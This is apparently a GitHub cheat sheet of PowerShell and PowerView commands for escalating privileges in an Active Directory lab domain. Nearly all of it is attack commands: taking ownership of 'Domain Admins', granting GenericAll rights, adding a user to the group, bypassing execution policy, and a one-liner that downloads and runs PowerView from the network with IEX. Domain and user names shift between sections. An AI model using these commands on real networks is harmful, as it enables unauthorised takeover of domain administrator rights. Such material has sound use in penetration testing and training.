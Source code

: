 # Power view cheat sheet

## Commands
## Note: Domain = `bank.local`, User = `goodboy`

```bash
powershell -ep bypass
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)
- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
-or downloade the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1
Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl
Set-ExecutionPolicy Bypass -Scope Process -Force
```

- 1.Take ownership
```bash
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose
```
- 2.Grant yourself Generic All
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose
```
- 3.Add to group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```